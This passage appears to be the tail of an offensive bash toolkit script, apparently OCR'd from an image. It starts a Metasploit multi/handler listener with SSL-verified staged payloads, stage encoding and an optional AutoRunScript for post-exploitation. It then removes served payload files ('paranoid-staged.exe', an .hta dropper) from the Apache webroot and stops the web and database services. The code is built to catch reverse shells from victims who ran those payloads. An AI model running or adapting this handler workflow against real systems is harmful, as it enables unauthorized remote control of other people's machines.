     msfconsole -q -x "use exploit/multi/handler; set PAYLOAD $paylo; set LHOST $LhOsT; set LPORT $LpOrT; set HandlerSSLCert $IPATH/output/$N4M3.pem; set StagerVerifySSLCert true; set EnableUnicodeEncoding $VaL; set EnableStageEncoding $StAgE; set StageEncoder $ENCODE; set AutoRunScript $PoSt; exploit"
  else
    msfconsole -q -x "use exploit/multi/handler; set PAYLOAD $paylo; set LHOST $LhOsT; set LPORT $LpOrT; set HandlerSSLCert $IPATH/output/$N4M3.pem; set StagerVerifySSLCert true; set EnableUnicodeEncoding $VaL; set EnableStageEncoding $StAgE; set StageEncoder $ENCODE; exploit"
  fi
  #
  # Cleaning files & stop apache2 ..
  #
  rm $ApAcHe/paranoid-staged.exe > /dev/null 2>&1
  rm $ApAcHe/EasyFileSharing.hta > /dev/null 2>&1
  /etc/init.d/apache2 stop | zenity --progress --pulsate --title "☠ PLEASE WAIT ☠" --text="Stoping apache2 webserver" --percentage=0 --auto-close --width 300 > /dev/null 2>&1
  sleep 2


else
  #
  # Cancel button pressed, aborting script execution ..
  #
  echo ${RedF}[x]${white}" Cancel button, aborting .."
  if [ "$ChEk_DB" = "ON" ]; then
  $SeRvi stop | zenity --progress --pulsate --title "☠ PLEASE WAIT ☠" --text="Stop postgresql service" --percentage=0 --auto-close --width 300 > /dev/null 2>&1
  fi
  sleep 2
  exit
fi



#
# The End ..
#
echo ${BlueF}[☠]${white} Module execution finished ..${Reset};
if [ "$ChEk_DB" = "ON" ]; then
$SeRvi stop | zenity --progress --pulsate --title "☠ PLEASE WAIT ☠" --text="Stop postgresql service" --percentage=0 --auto-close --width 300 > /dev/null 2>&1
fi
sleep 1
exit
